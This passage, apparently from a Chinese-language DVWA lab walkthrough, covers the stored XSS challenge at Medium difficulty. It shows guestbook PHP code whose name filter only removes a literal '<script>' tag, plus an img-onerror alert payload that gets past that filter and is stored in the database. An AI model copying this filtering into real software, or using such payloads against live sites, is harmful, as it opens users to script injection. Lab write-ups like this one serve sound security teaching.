 以上这些函数都只是对数据库进行了防护，却没有考虑到对XSS进行过滤，所以依然可以正常的来XSS

## Medium





php

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

**payload1**





javascript

```javascript
Name: <img src=x onerror=alert('XSS')>
Message: www.sqlsec.com
```

可以看到我们的payload直接插入到了数据库中了：
